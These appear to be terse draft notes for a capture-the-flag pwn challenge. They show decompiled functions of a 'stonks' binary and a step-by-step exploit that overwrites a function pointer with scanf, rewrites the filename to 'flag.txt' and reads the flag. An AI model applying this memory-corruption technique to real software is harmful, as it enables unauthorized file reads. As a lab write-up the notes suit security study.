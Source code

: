 # drafts

> NO PIE
> 

`f1056` edit function poiter of `.data: 22050` And this fucntion is called in `f4919` 

```cpp
// f4919 default
mul_2_param(int a1, int a2){
  currStonk += a2 * a1;
  return a2 * a1;
}
// f16 change method calc
int f16(){
  if ( (char *)modified_by_f1056 == (char *)mul_2_param )
    f1056(1056, sum_2_param, 0, 0);
  else
    f1056(1056, mul_2_param, 0, 0);
  return v0;
}
// f32
int f32_printStonk()
{
  printf("Your current stonks are roughly: %d\n", currStonk);
  return v0;
}
```

`f48` read from stonks.txt file

```cpp
// f39321
int f39321(int a1, int a2)
{
  int v2; // r3
  int (*v4)(); // [sp+14h] [bp-8h]

  v4 = 0;
  if ( a2 )
  {
    if ( a2 == 1 )
      v4 = mul_2_param;
    printf("s3cr3t debug %d (TODO remove in production)\n", v4);
  }
  else
    printf("s3cr3t debug %d (TODO remove in production)\n", &fileName);
  return v2;
}
```

We use `plt.scanf`, so any mem can be rewritten

send 1056 66928 0 0 to rewrite the function pointer to scanf function (66928 - plt.scanf)

send 4919 70140 139352 0 to call scanf function, the two parameters are the address of %s and filename (139352-addr of filename, 70140-%s)

send flag.txt, rewrite filename to flag .txt

send 48 0 0 0 execute the read file operation, you can read the flag.txt file